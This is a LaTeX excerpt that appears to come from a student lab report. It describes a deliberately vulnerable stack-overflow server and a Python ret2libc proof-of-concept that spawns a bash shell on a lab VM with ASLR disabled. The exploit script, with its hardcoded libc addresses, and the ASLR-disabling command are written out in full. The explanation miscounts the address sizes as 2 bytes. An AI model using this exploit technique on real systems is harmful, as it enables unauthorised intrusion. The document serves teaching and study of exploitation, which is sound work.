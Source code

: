 \documentclass[a4paper,9pt]{report}
\begin{document}
The \texttt{capstone()} function allocates a 500 byte buffer of \texttt{chars}, which as a local variable will saved on the stack, afterwards user input of up to 700 bytes in size is passed into it through the \texttt{read()} function. Most of the \texttt{main()} function simply sets up a TCP listener on port 1234 that passes whatever data it receives as an argument to \texttt{capstone()} in a loop, which in turn feeds it into \texttt{char buffer}. This effectively sets up the binary for a buffer overflow vulnerability, since any input sent to the port greater in size than 500 bytes will be written onto the stack.\\

The system hosting the executable is a Linux Debian 11 virtual machine, with ASLR disabled using - \texttt{echo 0 | tee /proc/sys/kernel/randomize\_va\_space}. The proof of concept is run from the host system running the hypervisor, inside an isolated virtual network and upon execution spawns a bash shell on the target machine, the source code is outlined below`\\

\begin{verbatim}
#!/bin/env python3
import socket

filler = 'A' * 516
eip = '\x40\x10\xe2\xb7' # address of system@glibc - 0xb7e21040
exiter = '\x90\x39\xe1\xb7' # address of exit@glibc - 0xb7e13990
shell = '\x26\xfe\xff\xbf' # address of "/bin/bash" - 0xbffffe26

buffer = filler + eip + exiter + shell

s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)

s.connect(("192.168.2.21", 1234))
s.send(bytes(buffer, encoding='latin-1'))

s.close
\end{verbatim}

The exploit script is quite simple in that it simply connects to the port exposed by the vulnerable \textbf{capstone} executable and sends 528 bytes of carefully crafted data to it. The first 516 is a filler used to reach the EIP after the overflow, the next 2 bytes which will go directly into EIP contain the address of the \texttt{system()} function in the \texttt{GLIBC} library, the next 2 contain the address of the \texttt{exit()} from the same library and the last 2 have the address of a "/bin/bash" string found inside the process memory. The last one is passed as an argument to the \texttt{system()} function mentioned previously according to the x86 calling conventions, resulting in the execution of the interpreter. This can be verified by viewing the Process ID of the bash instance with \texttt{echo \$\$} before the execution of program and after the exploit has been launched.\\
\end{document}
